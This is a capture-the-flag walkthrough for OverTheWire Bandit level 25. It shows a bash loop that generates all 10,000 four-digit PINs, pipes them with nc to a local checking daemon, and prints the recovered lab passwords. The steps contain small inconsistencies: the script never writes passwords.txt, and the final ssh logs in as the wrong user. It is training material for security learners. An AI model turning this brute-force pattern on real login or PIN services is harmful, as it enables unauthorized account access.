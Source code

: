 # Level 25
> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

```shell
bandit24@bandit:~$ cd $(mktemp -d)
bandit24@bandit:/tmp/tmp.OVOzKt6biG$ vi test.sh
```

### test.sh
```shell
#!/bin/bash
password='gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8'
for i in {0000..9999}; do
	echo $password $i
done
```

```shell
bandit24@bandit:/tmp/tmp.OVOzKt6biG$ chmod +x test.sh
bandit24@bandit:/tmp/tmp.OVOzKt6biG$ ./test.sh
bandit24@bandit:/tmp/tmp.OVOzKt6biG$ head -n 5 passwords.txt 
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0001
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0002
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0003
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0004

bandit24@bandit:/tmp/tmp.OVOzKt6biG$ cat passwords.txt | nc localhost 30002 > results.txt

bandit24@bandit:/tmp/tmp.OVOzKt6biG$ cat results.txt | grep -vi wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

bandit24@bandit:/tmp/tmp.OVOzKt6biG$ exit

$ ssh bandit24@bandit.labs.overthewire.org -p 2220
$ iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
